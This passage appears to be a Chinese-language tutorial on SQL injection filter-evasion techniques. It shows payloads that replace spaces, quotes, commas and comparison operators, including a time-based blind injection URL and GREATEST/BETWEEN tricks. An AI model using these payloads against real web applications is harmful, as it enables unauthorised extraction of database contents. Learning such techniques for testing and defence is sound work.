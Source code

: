 括号绕过空格

mysql语句：`select(user())from dual where(1=1)and(2=2)`

这种过滤方法常常用于time based盲注,例如：

`?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23`

### 绕过引号

这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用**十六进制**来处理这个问题了。users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：

`select column\_name from information\_schema.tables where table\_name=0x7573657273`

### 绕过逗号

在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：

`select substr(database() from 1 for 1);`

`select mid(database() from 1 for 1);`

使用`join`：

`union select 1,2#`

等价于 `union select \* from (select 1)a join (select 2)b`

使用`like`:

`select ascii(mid(user(),1,1))=80 #`

等价于 `select user() like 'r%'`

对于limit可以使用offset来绕过：

`select \* from news limit 0,1 #`

等价于下面这条SQL语句 `select \* from news limit 1 offset 0`

### 绕过比较符号()

（过滤了<>：sqlmap盲注经常使用<>，使用between的脚本）：

使用`greatest()、least()`：（前者返回最大值，后者返回最小值）

同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。 最常见的一个盲注的sql语句：

`select \* from users where id=1 and ascii(substr(database(),0,1))>64`

此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,…)函数返回输入参数(n1,n2,n3,…)的最大值。 那么上面的这条sql语句可以使用greatest变为如下的子句:

`select \* from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64`

### Between注入

主要用于盲注看页面是否有变化，原理如下，例如username的字符内容是test1，第一个字符是t，a到b搜索不了，页面不正常。 a到t就有了，页面正常
